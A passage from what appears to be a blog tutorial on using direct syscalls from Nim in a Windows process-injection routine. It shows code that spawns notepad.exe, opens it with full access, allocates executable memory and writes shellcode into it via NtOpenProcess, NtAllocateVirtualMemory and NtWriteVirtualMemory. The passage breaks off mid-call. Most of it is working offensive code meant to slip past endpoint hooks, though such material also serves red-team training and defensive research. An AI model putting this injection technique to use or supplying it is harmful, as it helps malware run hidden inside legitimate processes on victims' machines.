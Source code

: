 Now we can set about adding the necessary code to our project to call the inline assembly Native functions we've included. Once `syscalls.nim` has been added to the project, we can call our Native functions as normal, e.g. see the below for `NtOpenProcess`.

{% highlight nim %}
var cid: CLIENT_ID
var oa: OBJECT_ATTRIBUTES
var pHandle: HANDLE

cid.UniqueProcess = tProcess.processID

var status = NtOpenProcess(
    &pHandle,
    PROCESS_ALL_ACCESS, 
    &oa, &cid         
)
{% endhighlight %}

Working through the project and adding the necessary variables and functions, we end up with code something like the below:

{% highlight nim %}
#[
    Author: Marcello Salvati, Twitter: @byt3bl33d3r
    License: BSD 3-Clause
]#

import winim/lean
import osproc
include syscalls

proc injectCreateRemoteThread[I, T](shellcode: array[I, T]): void =

    # Under the hood, the startProcess function from Nim's osproc module is calling CreateProcess() :D
    let tProcess = startProcess("notepad.exe")
    tProcess.suspend() # That's handy!
    defer: tProcess.close()

    echo "[*] Target Process: ", tProcess.processID

    var cid: CLIENT_ID
    var oa: OBJECT_ATTRIBUTES
    var pHandle: HANDLE
    var tHandle: HANDLE
    var ds: LPVOID
    var sc_size: SIZE_T = cast[SIZE_T](shellcode.len)

    cid.UniqueProcess = tProcess.processID

    var status = NtOpenProcess(
        &pHandle,
        PROCESS_ALL_ACCESS, 
        &oa, &cid         
    )

    echo "[*] pHandle: ", pHandle

    status = NtAllocateVirtualMemory(
        pHandle, &ds, 0, &sc_size, 
        MEM_COMMIT, 
        PAGE_EXECUTE_READWRITE);

    var bytesWritten: SIZE_T

    status = NtWriteVirtualMemory(
        pHandle, 
        ds, 
        unsafeAddr shellcode, 